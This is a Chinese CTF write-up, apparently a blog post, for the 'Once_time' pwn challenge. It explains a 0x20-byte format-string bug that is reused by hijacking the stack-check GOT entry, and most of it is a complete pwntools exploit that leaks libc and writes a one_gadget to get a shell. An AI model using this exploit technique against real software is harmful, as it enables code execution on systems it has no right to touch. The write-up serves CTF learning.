 ```yaml
---
title: Once_time
date: 2018-09-04 14:05:31
tags: fmtstr pwn
layout: post
---
```

fmtstr limited 0x20_byte_lenth
pwn by chk
<!--more-->
# Once_time
这题有个新姿势...
利用修改canary的chk_got来多次利用漏洞
比赛的时候没有做出来...

## 漏洞
漏洞很简单是一个格式化字符串的漏洞
长度限制在0x20

## 漏洞利用
* 在name处留下chk_got 并改写为main
* 泄露地址,计算得到one_gadget
* 将one_gadget分次写入ret address
* get shell
## EXP
```python

from pwn import *
p=process("./once_time")
context.log_level="debug"
fmt=0x4008C5
main=0x400983
chk_got=0x601020
exit_got=0x601060

def msg(c):
	p.readuntil("leave a msg: ")
	p.send(c.ljust(0x20))
def msgplus(addr,c):
	p.readuntil("name: ")
	p.sendline(p64(addr))
	msg(c)	

	
one_gadget=0x45216
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
payload="%2435c%12$hn"
msgplus(chk_got,payload)
msgplus(exit_got,"%3$lx")
data="0x"+p.read(12)
data=int(data,16)
libc.address=data-(0x7ffff7b04260-0x00007ffff7a0d000)
log.success(hex(libc.symbols['system']))
raw=one_gadget+libc.address
p1=raw&0xffff
raw=raw>>16
p2=raw&0xffff
raw=raw>>16
p3=raw&0xffff

log.success(p1)
log.success(p2)
log.success(p3)
msgplus(exit_got+0x0,"%{}c%12$hn".format(str(p1)))#1
msgplus(exit_got+0x2,"%{}c%12$hn".format(str(p2)))#2
msgplus(exit_got+0x4,"%{}c%12$hn".format(str(p3)))#3
gdb.attach(p,'''
b *0x40097c
c
''')
msgplus(0xdeadbeef,"%p")#3
p.interactive()

```

